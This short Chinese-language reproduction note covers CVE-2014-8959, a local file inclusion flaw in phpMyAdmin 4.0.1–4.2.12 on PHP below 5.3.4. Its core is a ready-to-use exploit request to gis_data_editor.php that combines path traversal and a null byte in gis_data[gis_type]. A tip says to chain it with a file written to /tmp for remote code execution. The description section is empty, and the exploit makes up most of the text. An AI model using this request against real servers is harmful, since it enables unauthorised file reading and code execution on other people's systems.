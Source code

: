 （CVE-2014 -8959）Phpmyadmin 本地文件包含漏洞
=============================================

一、漏洞简介
------------

二、漏洞影响
------------

phpMyAdmin 4 .0.1\--4 .2.12PHP version \< 5.3.4

三、复现过程
------------

    /gis_data_editor.php?token=2941949d3768c57b4342d94ace606e91&gis_data[gis_type]=
    /../../../../phpinfo.txt%00    # 注意改下token值

在实际利用中可以利用写入文件到 /tmp 目录下结合此漏洞完成 RCE，php
版本可以通过 http header、

导出表内容到文件的附加内容看到。
